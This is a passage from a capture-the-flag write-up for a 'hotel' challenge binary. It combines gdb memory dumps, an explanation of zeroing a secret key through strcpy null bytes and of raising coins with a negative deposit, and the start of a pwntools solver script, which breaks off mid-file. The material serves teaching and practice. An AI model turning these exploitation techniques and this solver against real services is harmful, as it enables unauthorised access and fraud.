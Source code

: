 ```gdb
0x555555756060 <secret_passphrase>:	0xcd104c1c071ef0b7	0x7155be568885dbec
0x555555756070 <secret_passphrase+16>:	0x65b9687cb5bd2cec	0x0000185b25acd31f // another null byte is added!
```
This happens because `strcpy` adds it at the end of the string.  We can do this 38 times to create a key full of zeros.  Then, the `XOR` with `flag` will result in printing the actual flag and not junk.  

In order to call `claim` we need to increase our coins.  
```gdb
gef➤  c
Continuing.
2

How many coins do you want to deposit?
-100

Current coins: 113.37

1. Generate secret pass phrase.
2. Deposit coins.
3. Claim secret item.
4. Exit.
```
We can do this easily by adding a negative number!  

To sum it up:
* Create a pseudo-random lucky number full of zeros via `generate`.
* Increase the number of coins via `deposit` by adding a negative number.  
* Get flag via `claim`.  

#### Solver:  
```python
#!/usr/bin/python3
from pwn import *

ip = '172.17.0.1' 	# change this
port = 1337	        # change this 	
fname = './hotel'

LOCAL = False 		# change this 
if LOCAL:
	r = process(fname)
else:
	r = remote(ip, port)

e = ELF(fname, checksec = False)

sla = lambda x,y : r.sendlineafter(x,y)
inter = lambda : r.interactive()

def generate():
	# Create a 38 byte long key with 0s.
	with log.progress('Generating key..') as p:
		k = 1
		i = 39
		while(i >= 0):
			p.status('{} out of {} bytes'.format(k,32))
			sla('Exit.', '1')
			sla('(1-38):', str(i))
			k += 1
			i -=1

def play():
```